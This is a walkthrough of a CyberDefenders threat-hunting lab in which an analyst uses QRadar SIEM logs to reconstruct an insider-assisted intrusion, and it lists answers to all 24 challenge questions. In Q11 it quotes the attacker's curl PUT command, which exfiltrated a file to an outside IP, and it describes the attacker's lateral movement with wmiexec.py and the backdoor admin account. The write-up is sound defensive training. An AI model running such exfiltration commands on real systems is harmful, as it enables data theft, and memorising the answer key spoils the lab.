# Qradar101
lab Link [Qradar101](https://cyberdefenders.org/blueteam-ctf-challenges/qradar101/)
## Category : Threat Hunting
## Tools : 
  - IBM Qradar
  - Useful website for [Event IDs](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/)

## How to setup the lab? 
follow the instraction in the lab and watch the video



## Scenario
```
A financial company was compromised, and they are looking for a security analyst to help them investigate the incident.
The company suspects that an insider helped the attacker get into the network, but they have no evidence.
 

The initial analysis performed by the company's team showed that many systems were compromised. Also, alerts indicate the use of well known malicious tools in the network. As a SOC analyst, you are assigned to investigate the incident using QRadar SIEM and reconstruct the events carried out by the attacker.
```

## Dataset: 
  - Sysmon - swift on security configuration
  - Powershell logging
  - Windows Eventlog
  - Suricata IDS
  - Zeek logs (conn, HTTP)


### Q1: How many log sources available?
when you open the qradar in the first time, you will see this screen 



To know number of log sources, you need to navigate to admin panel



under data sources you can see Log sources, so press it



you can count them or as you can see below the screen

Answer: `15` 


### Q2: What is the IDS software used to monitor the network?

as mentioned in the challenge details 



Answer: `suricata`


### Q3: What is the domain name used in the network?

What is the event ID that will be triggered if the user from the domain successfully logs in?

EventID: 4624 *sucessful login*

but first you need to chance time range to include all events 
choose any old time because the logs start in 2020  



then 



after that add the customize search  then click add Filter
then click search



you will show the next



double click on any log to show payload information 



Answer: `hackdefend.local`


### Q4: Multiple IPs were communicating with the malicious server. One of them ends with "20". Provide the full IP.

as in the previous question, specify the time range and group the result by source ip 



you will find that src ip ends with `20`

Answer: `192.168.20.20`


### Q5: What is the SID of the most frequent alert rule in the dataset?
every signature rule in IPS/IDS has SID

we need to group by `RULE SID` as below



you will find that 



Answer: `2027865`


### Q6: What is the attacker's IP address?

offense a high-level security alert that groups related suspicious events or flows together. 
so, I navigate to offense to investigate in 

first, you need to clear default filters to show offenses

I started with this because it is the only public IP address in the list.



double click on it to show more information
The offense indicates excessive firewall deny events originating from a single public source IP targeting multiple internal hosts. 
This behavior is consistent with a potential scanning or reconnaissance activity, where the attacker attempts to probe multiple systems within the network.




Answer: `192.20.80.25`


### Q7: The attacker was searching for data belonging to one of the company's projects, can you find the name of the project?

search for payload contain project as below 



get deeper in any event to see payload 
I choosed this one 

you will find that 




Answer: `project48`


### Q8: What is the IP address of the first infected machine?

set a filter within attacker ip as a source address, then sort by time 




Answer: `192.168.10.15`


### Q9: What is the username of the infected employee using 192.168.10.15?
we need to filter for *192.168.10.15* as sourceip to see which user is related 



then exclude null user 


you will find the username *nour*



Another way to answer is to use AQL an below




Answer: `nour`


### Q10: Hackers do not like logging, what logging was the attacker checking to see if enabled?
first, I filtered by eventid = *1102* which mean *The audit log was cleared* 
but found nothing 



then, I searched if he check *realtimemonitoring*, *realtimeprotection* or *Antivirus*
by using commands like *Get-MpComputerStatus* or *Get-MpPreference*
but also found nothing 




After that, I filtered by `scriptblocklogging` becuase it's related to log powershell scripts



open the event to show raw data 




Answer: `powershell`


### Q11: Name of the second system the attacker targeted to cover up the employee?

to answer this question you need big visibility to show all commands executed on machine

filter by `eventid : 1` for preocess creation and `processcommandline = cmd`
to see all commands excuted using cmd

and then groupby `commandline` to focuse on commands

and groupby `log source` to show all logs related to one machine



as you can see the scenario in the image below



the using of `\q \c` is indicator for malicious action
on DC 
  the attacker run `cd and whoami` to know more info about domain and other machine
  then, he checked scriptblocklogging from registery
  after that, he created a user `rambo` and add to domain admin group to maintain persistance 
  then, `ls, dir` to gather more info
   after that he navigate to `HD-FIN-02`

on HD-FIN-02
  gather info about the machine which it's user is `sarah`
  then uplaoded the file named `sami.xlsx` to attacker ip using this command 
  `cmd.exe /Q /c curl -X PUT --upload-file sami.xlsx http://192.20.80.25:8000 1> \\127.0.0.1\ADMIN$\__1604917392.4554174 2>&1`
  then he deleted the file from sarah machine
  after that he navigate to `MGNT-01`

on MGNT-01
  gather info usign windows commands `ls, dir....`
  then deleted `sami.xlsx` also

so, the second system is `MGNT-01`

Answer: `MGNT-01`


### Q12: When was the first malicious connection to the domain controller (log start time - hh:mm:ss)?

as we already know from Q8 that the first infected machine is `192.168.10.15`


so, we need to show connections from 192.168.10.15 to DC after this date 

by the way, the machine that has `192.168.10.15` is `HD-FIN-03`



and the DC ip is `192.168.20.20`


now, we need to filter event name as a `network connection detected` and source ip = `192.168.10.15`

when filter dest ip as `192.168.20.20` 
I found nothing related to network connection, so  I changed it to `payload contains 192.168.20.20`
to search if the connection was established by any tool



by investigate more in this log

you can see notebook.exe started a network connection which is a malicious behaviour 




Answer: `11:14:10`


### Q13: What is the md5 hash of the malicious file?
we need to search for sysmon event id = 15 : file create stream hash



click on that event to see more info 




Answer: `9D08221599FCD9D35D11F9CBD6A0DEA3`


### Q14: What is the MITRE persistence technique ID used by the attacker?

we need to know which persistance technique that used by hacker 
most common persistence techniques 
    registry [Run, Runonce]
    schedular tasks : eventid = 4698 : scheduled task created
    startup folders

I started with registry 
 filter by using EventID = 13 : registry vlaue set 
 and payload contain Run or RunOnce to check persistance
 Run & RunOnce : used to execute programs automatically when a user logs on



showing raw event 



to know  MITRE persistence technique ID go to [MITRE](https://attack.mitre.org/)
then from tactics choose persistence 



 


Answer: `T1547.001`


### Q15: What protocol is used to perform host discovery?

Since the initial access was via IP address `192.168.10.15`, and there was a connection from this device to the DC, 
it is inevitable that the attacker would discover the network using IP address `192.168.10.15`.
so I user this filter and also filtered the time from the initial access to `192.168.101.15`
to the maliciouse connection to `DC`



then, I excluded 192.168.10.15 as a desitnation ip to reduce the output



This procedure looks like a scan (ping swap) from the same source port to an entire subnet.

by analyzing the raw log you can find that 




Answer: `icmp`


### Q16: What is the email service used by the company?(one word)

Firstly, I filtered by `desp port [25]` which related to SMTP but found nothing

then, filtered only by external ip 

then, i excluded dest port `53` becuase it's related to DNS 
and exclude also `loop back ip` to decrease reuslts

I found that result 



after that, I checked every ip in WHOIS then exclude to reduce the outpu

then I found this dest-ip `13.107.51.254`
which is related to Microsofr 


Answer: `office365`

### Q17: What is the name of the malicious file used for the initial infection?

from the `Q13` we can see the first file used for initial acccess


Answer: `important_instructions.docx`


### Q18: What is the name of the new account added by the attacker?
filter by `eventid = 4720 : create new user`





Answer: `rambo`


### Q19: What is the PID of the process that performed injection?
you need to filter using `EventID=8 : create remote thread (process injection)`



the photo down observe that this process is malicious becuase it's related to notebook.exe




Answer: `7384`


### Q20: What is the name of the tool used for lateral movement?

as we already saw in the questions above 
the attacker take an initial access on FIN-03 
then applied ping scan to discover the network 

now, we need to see commands running on the machine after scanning

as we also know, the first letral movement was to `DC`



by searching for this command we found that 






Answer: `wmiexec.py`


### Q21: Attacker exfiltrated one file, what is the name of the tool used for exfiltration?

using the same command above we can observe that



Answer: `curl`


### Q22: Who is the other legitimate domain admin other than the administrator?

filter using `EventID =4672 : special privileges assigned to new logon`




Answer: `Adam`


### Q23: The attacker used the host discovery technique to know how many hosts available in a certain network, what is the network the hacker scanned from the host IP 1 to 30?

as we did in the question `Q 15`




Answer: `192.168.20.0`


### Q24: What is the name of the employee who hired the attacker?

as we saw in commands, the attacker upload `sami.xlsx` and then delete it from two machines

Answer: `sami`


# The end. I hope this has been helpful to you.


    
